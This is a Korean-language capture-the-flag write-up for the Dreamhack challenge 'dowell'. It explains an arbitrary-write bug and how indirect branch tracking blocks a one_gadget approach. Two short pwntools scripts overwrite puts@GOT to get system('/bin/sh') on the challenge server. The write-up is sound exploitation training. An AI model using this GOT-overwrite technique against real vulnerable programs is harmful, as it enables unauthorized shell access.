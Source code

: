# Level2:dowell

## 문제 링크

---

https://dreamhack.io/wargame/challenges/1568

## Description

---

**We all do well to get shell!**

## Environment

---

![스크린샷 2025-02-07 오후 2.38.37.png](Level2%20dowell%20e7408c5187eb4c3680bee68c35b8aab0/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA_2025-02-07_%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE_2.38.37.png)

## Background

---

- GOT Overwrite

## 코드 분석

---

### IDA

- IDA를 이용하여 디컴파일한 코드이다.

![스크린샷 2025-02-07 오후 2.41.10.png](Level2%20dowell%20e7408c5187eb4c3680bee68c35b8aab0/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA_2025-02-07_%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE_2.41.10.png)

- 첫 번째 `scanf` 에서 `s` 의 값을 변경할 수 있다.
- 두 번째 `scanf` 에서 `s` 가 가리키는 영역에 값을 대입할 수 있다.
- 임의 주소 쓰기가 가능하다.

## 익스플로잇

---

### 익스플로잇 단계 #1

- 문제를 처음 보았을 때 했던 생각은 `puts_got` 를 `one_gadget` 으로 덮어 씌워 쉘을 획득하는 방법이었다.
    - Partial RERLO → GOT Overwrite 가능
    - No PIE → `libc_base` 를 구할 필요 없이 `one_gadget` 사용 가능
- `IBT` 가 활성화 되어있어 실패하였다.
    - `IBT` (Indirect Branch Tracking) : 간접 호출이 신뢰된 타겟으로만 이동할 수 있는 보호 기법
    - `one_gadget` 은 신뢰되지 않은 타겟이라 이동이 불가하다.

### 익스플로잇 단계 #2

- `prob` 를 실행하면 “I do well at getting the flag” 이라는 문자열이 출력된다.
- 해당 부분은 `system(st)` 에 의해 출력되는 부분이다.

![스크린샷 2025-02-07 오후 2.48.44.png](Level2%20dowell%20e7408c5187eb4c3680bee68c35b8aab0/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA_2025-02-07_%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE_2.48.44.png)

![스크린샷 2025-02-07 오후 2.50.42.png](Level2%20dowell%20e7408c5187eb4c3680bee68c35b8aab0/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA_2025-02-07_%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE_2.50.42.png)

- 따라서 `st` 문자열의 값을 바꿀 수 있으면, `system(/bin/sh)` 으로 쉘을 획득할 수 있다.
- GOT Overwrite가 가능하므로, `puts_got` 를 `main` 으로 설정하면 Ret2main이 가능하다.

### exploit.py

- Ret2main으로 입력을 여러번 받을 수 있게 하였다.
- `st` 를 덮어 씌워 `system(/bin/sh)` 를 수행하게 한다.

```purescript
from pwn import *

context.log_level = 'debug'

e = ELF('./prob')
# p = e.process()
p = remote('host1.dreamhack.games', 15384)

# GOT overwrite to Ret2main
p.sendlineafter(b'pt: ', str(e.got['puts']))
p.sendlineafter(b'input: ', p64(e.symbols['main']))

# system(/bin/sh)
p.sendlineafter(b'pt: ', str(e.symbols['st']))
p.sendlineafter(b'input: ', b'/bin/sh')

p.interactive()
```

![스크린샷 2025-02-07 오후 2.57.34.png](Level2%20dowell%20e7408c5187eb4c3680bee68c35b8aab0/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA_2025-02-07_%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE_2.57.34.png)

- `puts(s[0])` 임을 이용하여 `puts_got - 0x8` 에 `/bin/sh` 을, `puts_got` 에 `system_plt` 를 Overwrite하여 익스플로잇 하는 방법도 존재했다…;

```purescript
from pwn import *
p = remote("host3.dreamhack.games", 24067)
# p = process("./prob")
e = ELF("./prob") 

p.sendline(str(e.got['puts']-8).encode())
p.sendline(b"/bin/sh;"+p64(e.plt['system']))

p.interactive()
```